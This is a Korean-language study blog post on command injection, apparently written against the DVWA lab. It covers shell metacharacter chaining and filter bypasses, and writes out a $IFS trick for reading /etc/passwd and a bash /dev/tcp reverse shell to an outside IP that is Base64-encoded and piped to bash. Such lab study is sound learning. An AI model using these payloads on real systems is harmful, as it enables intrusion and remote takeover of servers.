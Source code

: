 ```yaml
---
layout: post
title: "명령어 인젝션 공부"
date: 2025-09-03 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

명령어 인젝션은 사용자의 입력값이 서버의 쉘 명령어의 일부로 검증 없이 전달될 때 발생하는 취약점이다. 공격자는 쉘의 특수문자(Metacharacters)를 주입하여 원래의 명령어를 종료시키거나 변조하고 자신이 원하는 새로운 명령어를 실행시킬 수 있다.

이 공격은 [A01: 접근 통제 실패](https://hamap0.github.io/projects/owasp-top-10/2025/08/25/A01_Broken-Access-Control.html) 보고서에서 리버스 쉘을 획득하여 서버 제어권을 장악하는 데 결정적인 역할을 했다.

---

### 2. 주요 공격 기법

공격의 핵심은 쉘 메타 문자를 사용하여 명령어의 흐름을 제어하는 것이다.

*   **`;` (Semicolon):** 앞 명령어의 성공 여부와 관계없이 다음 명령어를 순차적으로 실행한다.
    ```
    ping 127.0.0.1; whoami
    ```
*   **`&&` (Ampersand):** 앞 명령어가 성공적으로 실행되었을 때만 다음 명령어를 실행한다.
    ```
    ping 127.0.0.1 && whoami
    ```
*   **`|` (Pipe):** 앞 명령어의 표준 출력(stdout)을 다음 명령어의 표준 입력(stdin)으로 전달한다.

---

### 3. 필터링 우회 기법

단순한 메타 문자 주입은 방어 로직에 의해 차단될 수 있다. 이때는 필터링 규칙을 우회하는 기법이 필요하다.

#### **공백 문자 필터링 우회**
일부 시스템은 명령어 사이의 공백 문자를 필터링한다. 이때는 공백 대신 쉘의 내부 필드 구분자(Internal Field Separator)인 `$IFS` 변수를 사용할 수 있다.
*   **기본:** `cat /etc/passwd`
*   **우회:** `cat$IFS/etc/passwd`

#### **키워드 필터링 우회 (Base64 인코딩)**
`cat` · `ls` · `nc` 등 특정 명령어 키워드가 필터링될 때 사용된다. 실행할 명령어를 Base64로 인코딩하여 필터링을 우회한 뒤 서버에서 디코딩하여 실행시킨다.
1.  **공격자 PC에서 페이로드 인코딩:**
    ```bash
    # 실행할 리버스 쉘 명령어를 Base64로 인코딩 (-w0 옵션은 줄바꿈 없이 한 줄로 출력)
    echo "bash -i >& /dev/tcp/192.9.200.12/4444 0>&1" | base64 -w0
    ```
2.  **대상 서버에서 디코딩 및 실행:**
    인코딩된 문자열을 `echo`로 출력하고 파이프(`|`)를 통해 `base64 -d`로 디코딩한 뒤 다시 파이프를 통해 `bash`로 실행시킨다.
    ```bash
    # DVWA 입력값:
    127.0.0.1; echo <Base64 Encoded String> | base64 -d | bash
    ```
   ![CommandinjectionBase64](/assets/images/Cinjection_1.png)

이 방식은 필터링이 복잡할수록 유용하며 `A01` 보고서에서 서버 제어권을 획득할 때 사용된 핵심 기법이다.

<hr class="short-rule">
